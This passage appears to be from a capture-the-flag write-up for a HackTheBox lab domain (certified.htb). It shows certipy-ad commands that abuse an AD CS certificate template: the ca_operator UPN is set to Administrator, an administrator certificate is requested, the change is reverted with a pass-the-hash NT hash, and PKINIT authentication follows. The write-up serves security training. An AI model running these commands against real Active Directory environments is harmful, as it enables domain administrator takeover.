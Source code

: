 ```bash

[*] Updating user 'ca_operator':
    userPrincipalName                   : Administrator
[*] Successfully updated 'ca_operator

```
> Now I request a certificate on behalf of `ca_operator` but with the specified `UPN` - `Administrator`

```bash

sudo certipy-ad req -u 'ca_operator@certified.htb' -p qwerty123 -ca certified-DC01-CA -template CertifiedAuthentication -dc-ip 10.10.11.41

```
> Result:

![administrator_certificate](./screenshots/administrator_certificate.png)

> CA does not check whether the `UPN` belongs to the user `ca_operator` since there is no `Security Extension` and it is allowed to specify an alternative `UPN`.
> Therefore it is as if the certificate is requested by `Adminstrator` itself; although the account is `ca_operator`.

> Having received the administrator's certificate I return the entry in the `UPN` attribute back to `ca_operator`:

```bash

sudo certipy-ad account update -u 'management_svc@certified.htb' -hashes :a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn ca_operator -dc-ip 10.10.11.41

```

> I use the received certificate and perform `PKINIT` authentication via `kerberos` via `certipy-ad`:

---
> **Note:** Similar to how we extracted the `NT hash` from the generated certificate when `management_svc` was compromised:
---

```bash

sudo certipy-ad auth -pfx administrator.pfx -domain certified.htb -dc-ip 10.10.11.41

```
